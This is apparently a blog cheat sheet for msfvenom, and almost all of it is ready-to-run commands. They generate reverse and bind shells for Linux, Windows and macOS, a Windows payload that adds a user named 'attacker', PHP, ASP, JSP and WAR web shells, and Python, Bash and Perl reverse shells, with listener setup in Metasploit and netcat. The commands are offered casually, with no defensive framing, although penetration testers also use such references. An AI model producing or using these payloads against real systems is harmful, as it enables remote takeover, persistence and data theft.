 ```yaml
---
title:  "Msfvenom Payload Cheat Sheet"
header: "Msfvenom Payload Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Msfvenom
---
```


Msfvenom (replaced the former msfpayload and msfencode tools) and is a tool that can be used to generate payloads as standaline files and encode them if needed. Everybody likes shells, right?

# Usage  
***

Insert picture here

# Basic Commands  
***
#### List available payloads  
`msfvenom -l`

#### Encoding Payloads  
`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

# Handler Setup  
***
#### Meterpreter  
`msfconsole -q`
`use exploit/multi/handler`
`set PAYLOAD <PAYLOAD>`
`set LHOST <IP>`
`set LPORT <IP>`
`set ExitOnSession false`
`exploit -j -z`

#### Netcat  
`nc -nlvp <PORT>

# Linux  
***
#### Reverse Shell  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

#### Bind Shell  
`msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > shell.elf`

# Windows  
***
#### Reverse Shell  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe`

#### Bind Shell  
`msfvenom -p windows/meterpreter/bind_tcp RHOST= (IP Address) LPORT=(Your Port) -f exe > bind.exe`

#### CMD Shell  
`msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe`

#### User Creation  
`msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe`

# Mac  
***
#### Reverse Shell  
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho`

#### Bind Shell  
`msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho`

# Web Payloads  
***
#### PHP  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`  
`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

#### ASP  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

#### JSP  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

#### WAR  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

# Scripting Payloads  
***
#### Python  
`msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

#### Bash  
`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

#### Perl  
`msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`
